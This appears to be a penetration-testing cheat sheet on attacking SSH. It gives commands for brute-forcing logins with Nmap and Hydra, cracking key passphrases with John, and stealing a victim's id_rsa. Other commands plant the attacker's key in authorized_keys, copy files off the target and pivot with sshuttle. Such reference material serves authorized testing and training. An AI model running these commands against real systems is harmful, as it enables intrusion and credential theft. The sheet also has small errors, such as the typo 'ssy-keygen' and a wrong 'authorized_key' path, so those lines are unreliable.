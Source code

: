 ```yaml
---
title: Secure Shell (SSH) Pentesting
desc: Default port is 22.
tags: [22, Netcat, Nmap, SSH]
alts: []
render_with_liquid: false
---
```


## 1. Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ssh-brute -p 22 <target-ip>
    nmap --script ssh-auth-methods --script-args="ssh.user=username" -p 22 <target-ip>
    nmap --script ssh-* -p 22 <target-ip>
    ```

2. **Brute Force Credentials**

    ```sh
    hydra -l username -P passwords.txt <target-ip> ssh
    hydra -L usernames.txt -p password <target-ip> ssh

    # Specific ports
    hydra -l username -P passwords.txt -s 2222 <target-ip> ssh
    hydra -l username -P passwords.txt ssh://<target-ip>:2222
    ```

3. **Crack SSH Private Key**

    First of all, you need to format the private key to make John to recognize it.

    ```sh
    ssh2john private_key.txt > hash.txt
    ```

    Crack the password of the private key using the formatted text.

    ```sh
    john --wordlist=wordlist.txt hash.txt
    ```

<br />

## 2. Investigation

1. **Useful Tools**

- **[ssh-audit](https://github.com/jtesta/ssh-audit){:target="_blank"}**

    SSH server and client auditing.

    ```sh
    ssh-audit <target-ip>
    ```

2. **Banner Grabbing**

    ```sh
    nc <target-ip> 22
    ```

<br />

## 3. Connect

1. **Connect using Credential**

    If you know target credential, you can connect remote SSH using it.

    ```sh
    ssh username@<target-ip>
    ssh username@<target-ip> -p 22

    # Without username
    ssh 10.0.0.1
    ```

    If you got the error message "...no matching host key type found. Their offer: ssh-rsa",

    ```sh
    ssh -o HostKeyAlgorithms=+ssh-rsa username@10.0.0.1
    ```

    - **Execute Commands after Connecting**

        ```sh
        ssh username@<target-ip> 'ls -l'
        ```

    - **Test Connection**

        ```sh
        ssh -T username@10.0.0.1
        ssh -T username@10.0.0.1 -vvv
        ```

    - **Connect to Windows via Active Directory**

        ```sh
        ssh domain-name\\username@domain-controller
        ```

2. **Connect using the Existing Private Key**

    1. **Copy the Content of id_rsa (Private Key)**

        In remote machine,

        ```sh
        cat /home/<victim-user>/.ssh/id_rsa
        ```

    2. **Create New Private Key in Local Machine**

        ```sh
        echo 'copied content of id_rsa' > private_key.txt
        ```

        Don't forget to change permission this file. Otherwise, you cannot connect remote server.

        ```sh
        chmod 600 private_key.txt
        ```

    3. **Connect using Private Key**

        ```sh
        ssh -i private_key.txt victim-user@<remote-ip>
        ```

<br />

## 4. Transfer File From Remote to Local

1. **Use SCP**

    **SCP (Secure Copy)** relies on SSH. So you need to use SSH's username/password.

    - **In Target Machine**

        ```sh
        scp ./example.txt local-user@<you-local-ip>:./example.txt
        ```

    - **In Your Local Machine**

        ```sh
        scp target-user@<target-ip>:./example.txt .
        ```

<br />

## 5. Create SSH Keys

Use **ssh-keygen**.

1. **Generate Keys**

    ```sh
    ssh-keygen

    # Specify the output file
    ssh-keygen -f key
    # Specify Ed25519
    ssy-keygen -t ed25519
    ```

2. **Install SSH Key**

    In target machine,

    ```sh
    ssh-copy-id username@10.0.0.1
    ```

<br />

## 6. Generate SSH Keys and Set Up Public Key to Connect Remote Machine

1. **Check if authorized_key Exists in Remote Machine**

    ```sh
    ls /home/<remote-user>/.ssh/authorized_key
    ```

    If it exists, you may be able to connect SSH with your keys as victim user.

2. **Generate SSH Keys**

    ```sh
    ssh-keygen -f key

    # Copy the content of publick key
    cat ./key.pub
    ```

    Then copy the content of public key you generated.

3. **Add the Content of Publick Key to authorized_keys**

    In remote machine,

    ```sh
    echo '<content of id_rsa.pub' >> /home/<victim-user>/.ssh/authorized_keys
    ```

<br />

## 7. SSH Server

1. **Start SSH Server**

    ```sh
    /etc/init.d/ssh start
    # or
    systemctl start ssh
    ```

2. **Check SSH Running**

    ```sh
    ps -e | grep ssh
    ```

<br />

## 8. SSH Proxy Server

- **Use Sshuttle**

    **[sshuttle](https://github.com/sshuttle/sshuttle){:target="_blank"}** is transparent proxy server that works as a poor man's VPN. Forwards over ssh.

    ```sh
    sshuttle -r username@<remote-ip> <remote-ip>/24

    # Automatically determine subnet
    sshuttle -r username@<remote-ip> -N

    # Using private key
    sshuttle -r username@<remote-ip> --ssh-cmd "ssh -i private_key" <remote-ip>/24

    # Exclude the specific ip (-x)
    sshuttle -r username@<remote-ip> <remote-ip>/24 -x <remote-ip>
    ```

    Then you can access to other networks.

    - **Troubleshooting**

        If you get the error "Failed to flush caches: Unit dbus-org.freedesktop.resolve1.service not found...", you need to flush DNS cache.


        ```sh
        sudo systemctl enable systemd-resolved.service
        sudo resolvectl flush-caches
        ```

        Run sshuttle again.